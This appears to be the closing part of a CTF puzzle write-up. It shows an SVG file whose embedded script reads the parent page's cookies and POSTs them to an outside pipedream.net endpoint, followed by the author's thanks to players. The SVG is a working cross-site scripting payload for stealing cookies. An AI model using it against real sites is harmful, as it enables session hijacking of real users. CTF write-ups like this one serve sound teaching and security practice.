 ```html
<svg
	xmlns:svg="http://www.w3.org/2000/svg"
	xmlns="http://www.w3.org/2000/svg"
	version="1.0"
	x="0.00000000"
	y="0.00000000"
	width="500.00000"
	height="500.00000"
	id="svg2"
>
	<script type="text/javascript">
		console.log(window.parent.document.cookie); fetch("https://eohvmq4r3pcosx7.m.pipedream.net", {
		method: 'POST', crossorigin: true, mode: 'no-cors', headers: { 'Accept': 'application/json',
		'Content-Type': 'application/json', 'Access-Control-Allow-Origin':'*', }, body:
		JSON.stringify(window.parent.document.cookie), });
	</script>
</svg>
```

Hope you all enjoyed my puzzle! This was my first time writing my own puzzle or running a CTF in general so I learned so much about web security and exploitation along the way. I hope to continue to write puzzles in the future and see you all at Puzzle 2024!
